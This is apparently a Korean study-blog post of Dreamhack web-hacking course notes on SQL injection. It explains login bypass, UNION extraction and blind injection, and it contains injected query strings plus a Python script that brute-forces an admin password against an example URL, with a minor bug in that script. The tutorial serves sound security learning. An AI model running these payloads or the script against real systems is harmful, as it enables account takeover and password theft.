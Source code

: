 ```yaml
---
layout : single
title : "STAGE6. SQL Injection (2) : Serverside"
categories: Security
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```

# 드림핵 웹 SQL Injection (2)

-  [x] Simple SQL Injection
-  [x] Bline SQL Injection

## ServerSide : SQL Injection
Injection : 이용자의 입력값이 애플리케이션의 처리 과정에서 구조 또는 문법적인 데이터로 해석되어 발생하는 취약점

### SQL Injection
SQL은 DBMS에 데이터를 질의하는 언어로, 웹 서비스는 이용자의 입력(로그인 시에 ID/PW, 게시글의 제목과 내용)을 SQL 구문에 포함하여 요청하는 경우가 있다. 아래는 로그인 시 애플리케이션이 DBMS에 질의하는 퀴리의 예시이며, 사용자가 입력한 id와 pw가 뭐리문에 포함되어있는 것을 알 수 있다. 이처럼 SQL에 이용자가 임의 문자열을 삽입하는 행위를 SQL Injection이라 하며, 이 때 우리는 조작된 쿼리로 인증을 우회하거나, 데이터베이스의 정보를 유출할 수 있다.

```
/*
아래 쿼리 질의는 다음과 같은 의미를 가지고 있습니다.
- SELECT: 조회 명령어
- *: 테이블의 모든 컬럼 조회
- FROM accounts: accounts 테이블 에서 데이터를 조회할 것이라고 지정
- WHERE user_id='dreamhack' and user_pw='password': user_id 컬럼이 dreamhack이고, user_pw 컬럼이 password인 데이터로 범위 지정
즉, 이를 해석하면 DBMS에 저장된 accounts 테이블에서 이용자의 아이디가 dreamhack이고, 비밀번호가 password인 데이터를 조회
*/
SELECT * FROM accounts WHERE user_id='dreamhack' and user_pw='password'
```
<br><Br>
아래의 쿼리에서는 user_pw 조건문이 사라져있으며, 이러한 경우 비밀번호의 대조 없이 id만으로 계정에 로그인이 가능하다

```
/*
아래 쿼리 질의는 다음과 같은 의미를 가지고 있습니다.
- SELECT: 조회 명령어
- *: 테이블의 모든 컬럼 조회
- FROM accounts: accounts 테이블 에서 데이터를 조회할 것이라고 지정
- WHERE user_id='admin': user_id 컬럼이 admin인 데이터로 범위 지정
즉, 이를 해석하면 DBMS에 저장된 accounts 테이블에서 이용자의 아이디가 admin인 데이터를 조회
*/
SELECT * FROM accounts WHERE user_id='admin'
```

#### Simple SQL Injection
Union Operator : [link](https://www.w3schools.com/sql/sql_union.asp)<br>
SQL에서 Union은 두 개 이상의 result-set을 결합하는 역할을 한다. 기존의 코드는 user_table에서 uid의 값만 select하기에, SQL을 실행했을 때, uid의 값만을 받아올 수 있다. 따라서, union을 사용하여 upw를 함께 받아오는 코드를 작성한 후, 후의 코드를 --를 통해 주석처리 해주었다.
<br><Br>
<img src = "/images/webbackground/8.png"><br><Br>
결과<br><Br>
<img src = "/images/webbackground/9.png">

#### Blind SQL Injection
아래의 예시와 같이, 스무고개와 유사한 방식으로 데이터를 알아낼 수 있다. DBMS가 답변 가능한 형태로 질문하며, 질의 결과를 이용자가 직접 화면에서 확인하지 못할 때, 참과 거짓의 반환 결과로 데이터를 획득한다

1. Question #1. dreamhack 계정의 비밀번호 첫 번째 글자는 'x' 인가요?<Br>
Answer. 아닙니다

2. Question #2. dreamhack 계정의 비밀번호 첫 번째 글자는 'p' 인가요?<Br>
Answer. 맞습니다 (첫 번째 글자 = p)

3. Question #3. dreamhack 계정의 비밀번호 두 번째 글자는 'y' 인가요?<Br>
Answer. 아닙니다.

4. Question #4. dreamhack 계정의 비밀번호 두 번째 글자는 'a'인가요?<Br>
Answer. 맞습니다. (두 번째 글자 = a)

<br><br>
예시 코드

```
# 첫 번째 글자 구하기 (아스키 114 = 'r', 115 = 's'')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=114-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=115-- ' and upw=''; # True
# 두 번째 글자 구하기 (아스키 115 = 's', 116 = 't')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=115-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=116-- ' and upw=''; # True 
```

---

Blind SQL Injection은 한 바이트씩 비교하기 때문에 다른 공격에 비해 많은 시간을 들여야 하며, 이를 해결하기 위해서는 공격을 자동화하는 스크립트를 작성해야 한다. 

**request 모듈 GET 예제 코드**

```python
import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
params = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.get(url + str(i), headers=headers, params=params)
    print(c.request.url)
    print(c.text)
```

**request 모듈 POST 예제 코드**

```python
import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
data = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.post(url + str(i), headers=headers, data=data)
    print(c.text)
```

---

Blind SQL Injection으로 비밀번호를 알아내는 경우, 알파벳과 숫자, 특수문자를 모두 포함한 범위를 지정해야한다. 아래는 이를 고려하여 작성한 스크립트로, 비밀번호에 포함되는 모든 문자를 string을 사용하여 생성하고, 모든 문자를 한 바이트씩 비교하는 반복문을 작성한다. 반복문 실행 중 반환 결과가 참일 경우 Login success 문자열을 찾고, 해당 결과를 반환한 문자를 password에 저장한다. 이 작업이 끝나면 비밀번호를 알아낼 수 있다.

```python
#!/usr/bin/python3
import requests
import string
url = 'http://example.com/login' # example URL
params = {
    'uid': '',
    'upw': ''
}
tc = string.ascii_letters + string.digits + string.punctuation # abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
query = '''
admin' and ascii(substr(upw,{idx},1))={val}--
'''
password = ''
for idx in range(0, 20):
    for ch in tc:
        params['uid'] = query.format(idx=idx, val=ord(ch)).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        if c.text.find("Login success") != -1:
            password += chr(ch)
            break
print(f"Password is {password}")
```